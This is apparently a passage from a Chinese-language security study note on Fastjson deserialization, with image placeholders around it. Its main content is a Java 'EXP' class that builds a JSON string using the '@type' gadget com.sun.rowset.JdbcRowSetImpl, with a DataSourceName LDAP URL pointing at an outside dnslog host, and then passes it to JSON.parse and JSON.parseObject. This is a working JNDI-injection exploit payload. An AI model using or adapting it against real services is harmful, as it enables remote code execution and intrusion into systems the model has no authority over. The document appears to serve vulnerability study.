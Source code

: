 <img src="image/image-20231018212337541.png" alt="image-20231018212337541" style="zoom:80%;" />

<img src="image/image-20231018212357408.png" alt="image-20231018212357408" style="zoom:80%;" />

##### EXP

现在我们来构造exp，用yakit开一个dnslog

```java
package com.y5neko.sec.fastjson;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;

public class demo {
    public static void main(String[] args) {
        String s3 = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://fastjson.eyutdtslkb.dgrh3.cn/rNMfFuPI\",\"AutoCommit\":\"false\"}}";
        Object object1 = JSON.parse(s3);
        Object object2 = JSON.parseObject(s3, Person.class);
        Object object3 = JSON.parseObject(s3);
    }
}
```

<img src="image/image-20231018215930992.png" alt="image-20231018215930992" style="zoom:80%;" />
